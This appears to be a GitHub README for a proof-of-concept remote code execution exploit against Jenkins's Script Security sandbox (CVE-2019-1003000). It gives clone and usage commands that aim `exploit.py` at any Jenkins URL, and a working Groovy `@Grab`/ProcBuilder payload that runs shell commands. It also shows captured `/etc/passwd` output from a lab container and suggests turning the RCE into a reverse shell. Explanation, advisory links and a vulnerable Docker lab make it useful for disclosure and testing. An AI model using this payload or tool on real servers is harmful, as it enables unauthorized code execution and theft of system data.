 # PoC: Jenkins RCE
##### SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)

> A proof of concept to allow users with Overall/Read permission and Job/Configure (and optional Job/Build) to bypass the sandbox protection and execute arbitrary code on the Jenkins master or node.

> **Update**: An article by [Orange Tsai](https://twitter.com/orange_8361) explaining the exploit chain utilizing CVE-2018-1000861 and CVE-2019-1003000 that bypass the need of Overall/Read permission for a pre-auth RCE:
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html


## Installation

```bash
$ git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc.git
$ cd cve-2019-1003000-jenkins-rce-poc
$ pip install -r requirements.txt
```


## Usage
Pass target url, job name, username/password credential, and system command to be executed, as arguments.
```bash
$ python exploit.py --url http://jenkins-site.com --job job_name --username your_user --password your_passwd --cmd "cat /etc/passwd"
```

## Explanation

Quoted from [Red Hat Bugzilla - Bug 1667566](https://bugzilla.redhat.com/show_bug.cgi?id=1667566):

> A flaw was found in Pipeline: Declarative Plugin before version 1.3.4.1, Pipeline: Groovy Plugin before version 2.61.1 and Script Security Plugin before version 1.50. Script Security sandbox protection could be circumvented during the script compilation phase by applying AST transforming annotations such as @Grab to source code elements. Both the pipeline validation REST APIs and actual script/pipeline execution are affected. This allowed users with Overall/Read permission, or able to control Jenkinsfile or sandboxed Pipeline shared library contents in SCM, to bypass the sandbox protection and execute arbitrary code on the Jenkins master or node. All known unsafe AST transformations in Groovy are now prohibited in sandboxed scripts.

This PoC is using a user with Overall/Read and Job/Configure permission to execute a maliciously modified build script in sandbox mode, and try to bypass the sandbox mode limitation in order to run arbitraty scripts (in this case, we will execute system command).

As a background, Jenkins's pipeline build script is written in groovy. This build script will be compiled and executed in Jenkins master or node, containing definition of the pipeline, e.g. what to do in slave nodes. Jenkins also provide the script to be executed in _sandbox mode_. In sandbox mode, all dangerous functions are blacklisted, so regular user cannot do anything malicious to the Jenkins server.

However, because the build script is written in Groovy, we can use any class or function in Java packages (However in sandbox mode, dangerous built-in ones are blacklisted). In this case, we are using AST transforming annotations `@Grab` to make jenkins import arbitrary java packages from external maven repository. In this PoC, I use `ProcBuilder` class defined in `org.buildobjects:jproc:2.2.3` in order to run system shell command.

The payload is defined as below:
```
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","cat /etc/passwd").run().getOutputString()
```

The script above will be compiled and executed in Jenkins master or node. After the job build is done, we can see the result of the shell command `cat /etc/passwd` in the job console output. Moreover, we can utilize this RCE to gain reverse shell, and literally _pwn_ the Jenkins server!


## Example Vulnerable Site

An example vulnerable jenkins is provided in this repository at directory `sample-vuln` in Docker container format. After booting up, the container image will have a jenkins site hosted on port tcp/8080, with a regular user with Overall/Read + Job/Configure + Job/Build permission with credential `user1:user1`, and pipeline job with id `my-pipeline`.

```bash
$ cd sample-vuln
$ ./run.sh


$ cd ..
$ python exploit.py --url http://localhost:8080 --job my-pipeline --username user1 --password user1 --cmd "cat /etc/passwd"

[+] connecting to jenkins...
[+] crafting payload...
[+] modifying job with payload...
[+] putting job build to queue...
[+] waiting for job to build...
[+] restoring job...
[+] fetching output...
[+] OUTPUT:
Started by user User 1
Running in Durability level: MAX_SURVIVABILITY
[Pipeline] echo
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
jenkins:x:1000:1000:Linux User,,,:/var/jenkins_home:/bin/bash

[Pipeline] End of Pipeline
Finished: SUCCESS
```


## Reference
- [Jenkins Security Advisory 2019-01-08](https://jenkins.io/security/advisory/2019-01-08/)
- [Jenkins upstream patch](https://github.com/jenkinsci/script-security-plugin/commit/2c5122e50742dd16492f9424992deb21cc07837c)
- [Red Hat Bugzilla - Bug 1667566](https://bugzilla.redhat.com/show_bug.cgi?id=1667566)
- [Jenkins Script Security Plugin](https://wiki.jenkins.io/display/JENKINS/Script+Security+Plugin)
